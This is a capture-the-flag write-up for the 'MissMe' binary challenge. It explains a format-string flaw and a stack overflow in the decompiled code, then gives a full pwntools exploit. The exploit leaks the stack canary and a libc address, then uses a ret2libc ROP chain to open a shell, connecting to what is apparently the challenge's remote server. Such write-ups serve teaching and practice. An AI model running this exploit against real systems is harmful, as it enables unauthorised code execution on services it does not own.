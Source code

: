 # MissMe

## info

we're given an elf binary `missme` along with a libc and a `run.sh` script to start the `missme` binary with given ld and libc...

```
$ file missme
missme: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=cd942396eb1ff8a507f2e5ed18e76c14e0f8ca86, not stripped
```

and security mechanisms of the file:
```
$ checksec --file missme
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

decompiled code of `main` function is as follow:
```c

undefined8 main(undefined8 argc, char **argv)
{
    int64_t iVar1;
    int64_t iVar2;
    undefined8 uVar3;
    int64_t in_FS_OFFSET;
    char **var_830h;
    int64_t var_824h;
    undefined8 var_814h;
    int64_t canary;
    
    iVar1 = *(int64_t *)(in_FS_OFFSET + 0x28);
    puts(0x2008);
    puts(0x20b0);
    puts(0x2158);
    puts(0x2200);
    puts(0x22a8);
    puts(0x2350);
    puts(0x23f8);
    puts(0x24a0);
    puts(
        "                                                                                                                                                                      "
        );
    fflush(_reloc.stdout);
    setvbuf(_reloc.stdin, 0, 2, 0);
    setvbuf(_reloc.stdout, 0, 2, 0);
    signal(0xe, clocker);
    alarm(0x3c);
    var_814h._0_4_ = 0;
    do {
        if (1 < (int32_t)var_814h) {
            uVar3 = 1;
code_r0x00001364:
            if (iVar1 != *(int64_t *)(in_FS_OFFSET + 0x28)) {
                uVar3 = __stack_chk_fail();
            }
            return uVar3;
        }
        iVar2 = fgets((int64_t)&var_814h + 4, 0x900, _reloc.stdin);
        if (iVar2 == 0) {
            uVar3 = 0;
            goto code_r0x00001364;
        }
        iVar2 = strchr((int64_t)&var_814h + 4, 0x6e);
        if (iVar2 == 0) {
            printf((int64_t)&var_814h + 4);
            fflush(_reloc.stdout);
        }
        var_814h._0_4_ = (int32_t)var_814h + 1;
    } while( true );
}
```

it simply runs a loop just twice to perform the following:
1. get an input string of at most 0x900 and store it at `rbp - 0x818` (stack overflow)
2. print it using printf and then fflush to force output buffer write (format string vulnerability)

# exploit

we get to do this twice...

so with first round of loop, we can leak stack canary and __libc_start_main + some offset from past the base pointer...

canary is at rbp-8 and __libc_start_main addr will be at rbp+16 iirc...

after leaking canary and libc base address, we can overflow the stack by ease and call system, using a `pop rdi; ret` gadget and '/bin/sh\x00' address from libc to prepare the call...

I found the correct offset/argnum for format string by just playing around and printing them... which isn't a good way but worked for me...

there is also a single ret gadget used in rop which is to adjust address alignment for system call, otherwise some vector instruction inside it would segfault...

```python
from pwn import *

context.arch = 'amd64'
context.os = 'linux'


def exploit(p, libc, pop_rdi_offset, single_ret_offset, local):
    p.recv()

    bin_sh_offset = next(libc.search(b'/bin/sh\x00'))

    # canary and libc leak

    payload = b'0x%267$016lx - 0x%269$016lx - :::'
    p.sendline(payload)

    leaks = p.recvuntil(b':::').split(b' - ')
    print(p.recvline())

    canary_leak = int(leaks[0], 16)
    libc_start_main_leak = int(leaks[1], 16) - 243
    if not local:
        libc_start_main_leak += 8

    __libc_start_main = libc.symbols['__libc_start_main']
    libc_base = libc_start_main_leak - __libc_start_main

    bin_sh_addr = libc_base + bin_sh_offset
    single_ret = libc_base + single_ret_offset
    pop_rdi = libc_base + pop_rdi_offset
    libc_system = libc_base + libc.symbols['system']
    libc_exit = libc_base + libc.symbols['exit']

    print("[+] canary leak:       0x%016x" % canary_leak)
    print("[+] bin sh addr:       0x%016x" % bin_sh_addr)
    print("[+] __libc_start_main: 0x%016x" % libc_start_main_leak)
    print("[+] libc base:         0x%016x" % libc_base)
    print("[+] libc pop rdi:      0x%016x" % pop_rdi)
    print("[+] libc xor eax:      0x%016x" % single_ret)
    print("[+] libc system:       0x%016x" % libc_system)

    # rewrite ret address to set rdi and call system

    payload = b'A' * 0x808
    payload += p64(canary_leak) + p64(libc_system)
    payload += p64(pop_rdi) + p64(bin_sh_addr)
    payload += p64(single_ret)
    payload += p64(libc_system)
    payload += p64(libc_exit)

    #gdb.attach(p)

    p.sendline(payload)

    p.interactive()

if __name__ == '__main__':
    local = sys.argv[1:2] and sys.argv[1] == 'local'
    if local:
        libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
        p = process(['./missme'])
    else:
        libc = ELF('./libc.so.6')
        p = remote('185.14.184.242', 15990)
        #p = process(['./ld-2.28.so', '--library-path', './', './missme'])
        #p = process(['./run.sh'])

    rop = ROP(libc)
    pop_rdi_offset = (rop.find_gadget(['pop rdi', 'ret']))[0]
    single_ret_offset = (rop.find_gadget(['ret']))[0]

    exploit(p, libc, pop_rdi_offset, single_ret_offset, local)
```
